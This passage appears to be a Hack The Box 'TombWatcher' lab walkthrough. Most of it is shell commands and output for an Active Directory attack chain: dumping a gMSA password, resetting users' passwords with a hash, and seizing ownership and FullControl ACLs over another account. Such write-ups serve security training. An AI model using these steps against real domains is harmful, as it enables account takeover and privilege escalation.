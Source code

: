 #### ii. Dump GMSA Password for ANSIBLE_DEV$
```shell
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# nxc ldap 10.10.11.72 -u alfred -p 'basketball' --gmsa
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAPS       10.10.11.72     636    DC01             [+] tombwatcher.htb\alfred:basketball 
LDAPS       10.10.11.72     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.72     636    DC01             Account: ansible_dev$      NTLM: [HASH_REDACTED]   PrincipalsAllowedToReadPassword: Infrastructure
```

#### iii. Change Sam's Password

```shell
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb' -u 'ansible_dev$' -p ':ecb4146b3f99e6bbf06ca896f504227c' set password SAM 'Cyb3rtr0n@123'    
[+] Password changed successfully!
```

#### ⅳ. Takeover John via Ownership/ACL
- Set ownership:

```shell
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# impacket-owneredit -action write -new-owner 'SAM' -target 'JOHN' TOMBWATCHER.HTB/SAM:'Cyb3rtr0n@123'  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!
```

- Grant FullControl:

```shell               
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# impacket-dacledit -action write -rights FullControl -principal 'SAM' -target 'JOHN' TOMBWATCHER.HTB/SAM:'Cyb3rtr0n@123'  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250817-234104.bak
[*] DACL modified successfully!
```

- Change password:

```shell
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb' -u 'SAM' -p 'Cyb3rtr0n@123' set password JOHN 'Cyb3rtr0n@123'
[+] Password changed successfully!
```
